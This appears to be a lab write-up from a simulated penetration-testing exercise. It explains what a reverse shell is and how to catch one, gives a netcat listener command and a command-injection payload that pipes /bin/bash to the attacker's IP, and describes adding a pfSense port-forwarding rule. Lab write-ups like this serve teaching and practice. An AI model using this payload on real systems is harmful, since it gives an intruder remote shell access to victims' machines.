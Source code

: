 # Stage 3: Exploiting Vulnerability

### What Is A Reverse Shell

A reverse shell is a method attackers use to access a victim's system. The reverse shell is so effective because of the way most firewalls are already configured. Most firewalls default to deny all inbound traffic but allow all outbound traffic. A reverse shell is so effective because the attacker uses an exploit to send out a shell from the victim's system to the attacker's WAN to gain access. This bypasses the firewall because it allows all traffic outbound rules to send a shell to the attacker's WAN. 

### How To Catch A Reverse Shell
To catch a reverse shell you need 3 things: 

- Listener (think: _'thing that catches reverse shell'_)
- Payload (think: _'thing that sends you a reverse shell'_)
- Port Forwarding rule (think: _'thing that forwards reverse shell from router to kali'_)


### Listener

Attacker:

```bash
nc -lvp 44554
```

nc: stands for "netcat" which is a versatile networking tool used for various communication purposes.

-l: instructs netcat to listen for incoming connections on a specified port.

v: enables verbose mode, providing more detailed output about the connection.

p 44554: specifies the port number (44554 in this case) on which netcat should listen.

### Payload

```bash
;nc -e /bin/bash 192.168.122.209 44554
```

nc: stands for "netcat" which is a versatile networking tool used for various communication purposes.

-e /bin/bash: specifies that netcat should execute a shell (/bin/bash) on the established connection.

192.168.122.209 44554: This specifies the target IP address (192.168.122.209) and port number (44554) to connect to.

It is important to note when executing a payload you must send the shell to the attackers WAN because the firewall rules denys all inbound traffic. This is why we create a port forwarding rule.

### Port Forwarding Rule

Because this a simulated enviroment we have to find the router/firewall. To access the router/firewall we have to understand how networking works. On the Kali box I am attacking from I run "ifconfig" to get my IP address. 

- Attacker IP address is 192.168.2.72
- The subnet is set to 255.255.255.0

In order to be on the same network the first 3 octects have to match. In this case all devices on this network start with 192.168.2.X. Most routers are usually set to be the first or last device on the network.

I put "192.168.2.1" in the firefox browser and it brings up a pfsense GUI. 

I then go to the firewall settings to enable a port forwarding rule on port 44554 to 192.168.2.72 (attacker box).
